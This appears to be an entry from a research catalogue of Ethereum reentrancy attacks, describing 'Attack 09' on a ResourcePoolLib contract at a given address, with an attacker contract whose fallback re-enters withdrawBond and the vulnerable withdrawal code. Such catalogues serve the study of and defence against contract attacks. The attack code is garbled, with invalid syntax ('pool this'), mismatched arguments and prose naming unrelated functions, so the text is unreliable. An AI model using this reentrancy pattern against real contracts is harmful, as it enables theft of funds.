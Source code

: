 #########
Attack 09
#########

**Contract Name**

ResourcePoolLib

**Contract Address**

0xf4861b23d0cbf1cf6a3ffb6fe3ac987e87fc1168

**Transaction Count**

16

**Invovled Ethers**

0.94 Ethers

**Length of the Call Chain**

1 external function

**Victim Function**

``eT``

**Attack Mechanisim**

Attack code:
::

    contract Attack is UacCrowdsale{
        ResourcePoolLib r = new ResourcePoolLib();

        constructor() payable {}

        function startAttack() public {   
            r.withdrawBond(pool this, 10, 10);
        }

        function() payable {
            r.withdrawBond(pool this, 10, 10);
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract ResourcePoolLib {
        ...
        function withdrawBond(Pool storage self, address resourceAddress, uint value, uint minimumBond) public {
            if (value > self.bonds[resourceAddress]) {
                throw;
            }

            if (isInPool(self, resourceAddress)) {
                if (self.bonds[resourceAddress] - value < minimumBond) {
                    return;
                }
            }

            deductFromBond(self, resourceAddress, value);

            if (!resourceAddress.send(value)) {
                if (!resourceAddress.call.gas(msg.gas).value(value)()) {
                    throw;
                }
            }
        }
        ...
    }

In this case, the attacker can lauch reentrancy attack by calling ``crowdsale.mintReservationTokens(to, amount)``. The attacker firstly resets the address variable ``crowdsale``. Then he can call victim function ``withdrawBond`` to start attack. The transaction destination is already modified, so the external call is controled by attacker. He can point this call back to the victim function ``withdrawBond`` and form a call-loop easily.

**Attack.** The attacker call ``startAttack`` to start attack.